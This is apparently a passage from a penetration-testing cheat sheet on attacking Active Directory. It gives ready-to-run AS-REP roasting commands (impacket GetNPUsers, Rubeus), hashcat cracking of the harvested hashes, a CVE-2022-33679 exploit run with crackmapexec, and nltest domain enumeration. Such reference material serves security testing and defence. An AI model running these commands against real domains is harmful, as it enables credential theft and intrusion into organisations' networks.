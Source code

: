 When a TGT request is made, the user must, by default, authenticate to the KDC in order for it to respond. Sometimes, this prior authentication is not requested for some accounts, allowing an attacker to abuse this configuration.

This configuration allows retrieving TGT encrypted with user's credential for users that have *Do not require Kerberos preauthentication* property selected:

- https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py
```
python3 GetNPUsers.py COMPANY.LOCAL/ -usersfile /home/user/users.txt -request -dc-ip 192.168.0.10 -format hashcat
```

- https://github.com/GhostPack/Rubeus
```
Rubeus.exe asreproast /domain:COMPANY.LOCAL /dc:192.168.0.10 /format:hashcat /outfile:asrep-roast.hashes
hashcat -m 18200 'asrep-roast.hashes' -a 0 ./wordlists/rockyou.txt
```

Google Project Zero [undercover](https://googleprojectzero.blogspot.com/2022/10/rc4-is-still-considered-harmful.html) some issue with RC4 and Kerberos authentication.  
If a user have *Do not require Kerberos preauthentication* property there is [no more the need to crack the encrypted TGT](https://github.com/Bdenneu/CVE-2022-33679).
```
python3 CVE-2022-33679.py evilcorp.local/vulnasrepuser dc-2016.evilcorp.local -dc-ip 192.168.2.60
export KRB5CCNAME=vulnasrepuser_dc-2016.evilcorp.local.ccache 
crackmapexec smb dc-2016.evilcorp.local -k
```
<img src="./images/asprepwithoutcrack1.png" width="500"/>

<img src="./images/asprepwithoutcrack2.png" width="500"/>

## Authenticated enumeration

```
nltest /domain_trusts
nltest /trusted_domains
nltest /primary
nltest /sc_query:<domain>
nltest /dclist:<domain>
nltest /dsgetsite
nltest /whowill:<domain> <user>
```
